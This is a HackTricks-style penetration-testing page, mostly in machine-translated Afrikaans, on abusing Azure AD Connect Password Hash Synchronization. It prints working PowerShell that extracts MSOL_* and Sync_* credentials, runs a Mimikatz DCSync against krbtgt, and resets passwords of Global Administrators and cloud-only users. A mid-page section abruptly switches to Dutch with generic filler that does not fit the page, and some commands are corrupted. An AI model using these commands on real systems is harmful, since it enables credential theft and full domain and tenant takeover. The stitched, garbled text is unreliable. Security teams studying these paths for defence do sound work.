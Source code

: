 # Az - PHS - Wagwoordhash-sinkronisering

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## Basiese Inligting

[Volgens die dokumentasie:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Wagwoordhash-sinkronisering** is een van die aanmeldingsmetodes wat gebruik word om hibriede identiteit te bereik. **Azure AD Connect** sinkroniseer 'n hash, van die hash, van 'n gebruiker se wagwoord van 'n plaaslike Active Directory-instantie na 'n wolkgebaseerde Azure AD-instantie.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Dit is die **mees algemene metode** wat deur maatskappye gebruik word om 'n plaaslike AD met Azure AD te sinkroniseer.

Alle **gebruikers** en 'n **hash van die wagwoordhashes** word van die plaaslike na Azure AD gesinkroniseer. Tog word **duidelike teks wagwoorde** of die **oorspronklike** **hashes** nie na Azure AD gestuur nie.\
Verder word **ingeboude** sekuriteitsgroepe (soos domeinadministrateurs...) **nie gesinkroniseer** na Azure AD nie.

Die **hash-sinkronisering** vind elke **2 minute** plaas. Standaard word **wagwoordverval** en **rekeningverval** egter **nie gesinkroniseer** in Azure AD nie. Dus kan 'n gebruiker wie se **plaaslike wagwoord verval het** (nie verander nie) steeds **toegang verkry tot Azure-hulpbronne** met die ou wagwoord.

Wanneer 'n plaaslike gebruiker toegang tot 'n Azure-hulpbron wil verkry, vind die **outentisering plaas op Azure AD**.

**PHS** is nodig vir funksies soos **Identity Protection** en AAD Domain Services.

## Pivoting

Wanneer PHS gekonfigureer is, word sommige **bevoorregte rekeninge** outomaties **geskep**:

* Die rekening **`MSOL_<installationID>`** word outomaties geskep in die plaaslike AD. Hierdie rekening word 'n **Directory Synchronization Accounts**-rol gegee (sien [dokumentasie](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)), wat beteken dat dit **replikasie (DCSync)-regte in die plaaslike AD** het.
* 'n Rekening **`Sync_<name of on-prem ADConnect Server>_installationID`** word in Azure AD geskep. Hierdie rekening kan die wagwoord van ENIGE gebruiker (gesinkroniseer of slegs in die wolk) in Azure AD **herstel**.

Die wagwoorde van die twee vorige bevoorregte rekeninge word **in 'n SQL-bediener gestoor** op die bediener waar **Azure AD Connect geïnstalleer is**. Admins kan die wagwoorde van daardie bevoorregte gebruikers in duidelike teks onttrek.\
Die databasis is geleë in `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Dit is moontlik om die konfigurasie uit een van die tabelle te onttrek, waarvan een versleutel is:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

Die **versleutelde konfigurasie** is versleutel met **DPAPI** en dit bevat die **wagwoorde van die `MSOL_*`**-gebruiker in die plaaslike AD en die wagwoord van **Sync\_\*** in AzureAD. Daarom is dit moontlik om hierdie wagwoorde te kompromitteer en privesc na die AD en na AzureAD uit te voer.

Jy kan 'n [volledige oorsig van hoe hierdie legitimasie gestoor en ontsluit word in hierdie praatjie](https://www.youtube.com/watch?v=JEIR5oGCwdg) vind.

### Die **Azure AD Connect-bedieners** vind

As die **bediener waar Azure AD Connect geïnstalleer is** domein-gekoppel is (aanbeveel in die dokumentasie), is dit moontlik om dit te vind met:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Misbruik van MSOL\_\*

In sommige gevallen kan het mogelijk zijn om de MSOL\_\*-accounts te misbruiken om laterale beweging uit te voeren in een hybride identiteitsomgeving met Azure AD Connect. Dit kan worden bereikt door het uitbuiten van de Password Hash Synchronization (PHS) functie.

#### Password Hash Synchronization (PHS)

PHS is een functie van Azure AD Connect waarmee wachtwoordhashes van gebruikersaccounts worden gesynchroniseerd vanuit de on-premises Active Directory naar Azure AD. Hierdoor kunnen gebruikers hun on-premises wachtwoorden gebruiken om in te loggen op cloudservices.

#### Misbruik van PHS

Om PHS te misbruiken, moet een aanvaller toegang hebben tot een MSOL\_\*-account. Dit kan worden bereikt door het verkrijgen van de inloggegevens van een beheerder of door het uitvoeren van een privilege-escalatieaanval.

Eenmaal ingelogd op een MSOL\_\*-account, kan de aanvaller de wachtwoordhash van een gebruiker extraheren. Deze hash kan vervolgens worden gebruikt om laterale beweging uit te voeren naar andere systemen in de hybride identiteitsomgeving.

#### Bescherming tegen misbruik

Om misbruik van PHS te voorkomen, is het belangrijk om de beveiliging van de MSOL\_\*-accounts te versterken. Dit kan worden bereikt door het implementeren van sterke wachtwoordbeleidsregels, het beperken van de toegang tot MSOL\_\*-accounts en het monitoren van verdachte activiteiten.

Daarnaast is het essentieel om regelmatig patches en updates toe te passen op Azure AD Connect om bekende kwetsbaarheden te verhelpen en de beveiliging te verbeteren.

#### Conclusie

Het misbruiken van MSOL\_\*-accounts en het uitbuiten van PHS kan een effectieve manier zijn om laterale beweging uit te voeren in een hybride identiteitsomgeving. Het is van cruciaal belang om de beveiliging van deze accounts te versterken en proactieve maatregelen te nemen om misbruik te voorkomen.
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Jy kan ook [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) gebruik om hierdie geloofsbriewe te verkry.
{% endhint %}

### Misbruik van Sync\_\*

Deur die **`Sync_*`**-rekening te kompromitteer, is dit moontlik om die wagwoord van enige gebruiker (insluitend Globale Administrateurs) te herstel.
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Dit is ook moontlik om die wagwoorde van slegs **wolkkliënte** te wysig (selfs al is dit onverwags)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Dit is ook moontlik om die wagwoord van hierdie gebruiker te dump.

{% hint style="danger" %}
'n Ander opsie sou wees om **bevoorregte toestemmings aan 'n diensprinsipaal toe te ken**, waar die **Sync**-gebruiker **toestemmings** het om dit te doen, en dan **toegang te verkry tot daardie diensprinsipaal** as 'n manier van privesc.
{% endhint %}

### Naadlose SSO

Dit is moontlik om Naadlose SSO met PHS te gebruik, wat vatbaar is vir ander misbruik. Kontroleer dit in:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Verwysings

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>
